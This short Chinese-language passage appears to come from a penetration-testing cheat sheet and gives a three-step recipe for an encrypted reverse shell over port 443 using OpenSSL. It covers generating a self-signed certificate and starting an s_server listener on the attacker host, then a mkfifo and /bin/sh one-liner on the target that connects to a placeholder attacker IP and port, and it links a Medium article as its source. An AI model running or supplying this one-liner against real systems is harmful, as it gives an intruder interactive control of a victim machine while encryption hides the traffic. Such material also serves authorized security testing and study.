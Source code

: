 
### OpenSSL
反弹443端口, 加密流量传输
1. 在远程攻击主机上生成密钥文件
`openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes`
2. 在远程攻击主机上启动监视器
`openssl s_server -quiet -key key.pem -cert cert.pem -port 443`
3. 在目标机上反弹shell
`mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s`

https://medium.com/@int0x33/day-43-reverse-shell-with-openssl-1ee2574aa998
